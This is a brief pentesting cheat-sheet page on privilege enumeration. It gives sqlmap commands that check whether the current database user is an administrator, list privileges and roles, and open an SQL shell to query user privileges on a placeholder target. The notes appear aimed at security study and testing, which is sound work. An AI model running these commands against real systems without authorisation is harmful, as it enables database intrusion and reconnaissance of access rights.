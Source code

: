 # 06 - Privileges

Search Tag: #sqlmap #enumeration-and-discovery

## Automated

- Enumerate current user database and check if it's DB administrator.

```
$ sqlmap -u "<URL>" --random-agent --current-user --is-dba 
```

- Enumerate privileges

```
$ sqlmap -u "<URL>" --random-agent --privileges -U CU
```

- Enumerate roles.

```
$ sqlmap -u "<URL>" --random-agent --roles -U CU
```

## Manually

TODO: Fill this info

```
$ sqlmap -u "<URL>" --random-agent --sql-shell

sql-shell> SELECT GRANTEE, IS_GRANTABLE, PRIVILEGE_TYPE, TABLE_CATALOG FROM information_schema.USER_PRIVILEGES
```